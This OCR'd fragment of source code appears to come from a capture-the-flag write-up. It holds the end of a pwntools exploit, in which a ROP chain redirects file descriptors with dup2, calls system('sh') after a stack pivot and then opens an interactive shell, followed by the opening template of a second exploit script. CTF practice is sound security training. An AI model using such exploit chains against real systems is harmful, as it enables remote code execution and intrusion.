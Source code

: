 ```python
            exe.plt["dup2"],
            pop_rdi,
            listen_fd,
            pop_rsi,
            1,
            exe.plt["dup2"],
            pop_rdi,
            sh,
            system
        ]
    )

    payload = payload.ljust(offset, b".") + p64(new_stack - 8) + p64(leave_ret)
    io.sendafter(b"?", payload)

    io.interactive()


def main():
    
    init()
    solve()
    

if __name__ == '__main__':
    main()


```

script 2 :

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('chal')
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x50+1100+0', '-e']
context.log_level = 'debug'

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def init():
    global io

    io = start()

```